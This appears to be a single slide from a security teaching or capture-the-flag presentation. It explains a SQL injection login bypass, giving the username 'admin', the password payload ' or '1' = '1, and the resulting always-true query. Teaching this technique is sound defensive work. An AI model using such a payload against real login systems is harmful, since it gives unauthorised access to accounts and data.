

# Thought Process and Solution
The key here is making the Boolean always evaluate to TRUE.
User: admin
Pass: ’ or ‘1’ = ‘1
<!-- SELECT * FROM passwords WHERE name='admin' AND pass='' OR '1' = '1' -->
In this case ‘1’ = ‘1’ is always TRUE the rest of the expression does not matter.